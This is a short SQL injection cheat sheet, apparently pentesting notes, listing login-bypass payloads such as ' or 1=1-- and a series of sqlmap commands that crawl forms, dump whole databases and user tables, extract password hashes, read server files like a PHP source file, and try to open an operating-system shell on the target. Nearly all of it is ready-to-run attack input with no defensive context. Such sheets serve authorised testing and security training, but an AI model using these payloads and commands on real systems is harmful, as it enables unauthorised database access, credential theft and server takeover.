 # 🪡 SQL Injection Cheat Sheet

#### Common **Injections for Login Forms:**

* `admin' --`
* `admin' #`
* `admin'/*`
* `' or 1=1--`
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1—`

#### **SQLMap** <a href="#toc475369027" id="toc475369027"></a>

* `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
  * Automated sqlmap scan
* `sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3`
* `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"`
  * Targeted sqlmap scan
* `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump` Scan url for union + error based injection with mysql backend and use a random user agent + database dump
* `sqlmap -o -u "http://meh.com/form/" –forms`
  * sqlmap check form for injection
* `sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users –dump`
  * sqlmap dump and crack hashes for table users on database-name.
* `sqlmap --flush session`
  * Flushes the session
* `sqlmap -p user --technique=B`
  * Attempts to exploit the “user” field using boolean technique.
* `sqlmap -r <captured request>`
  * Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible.
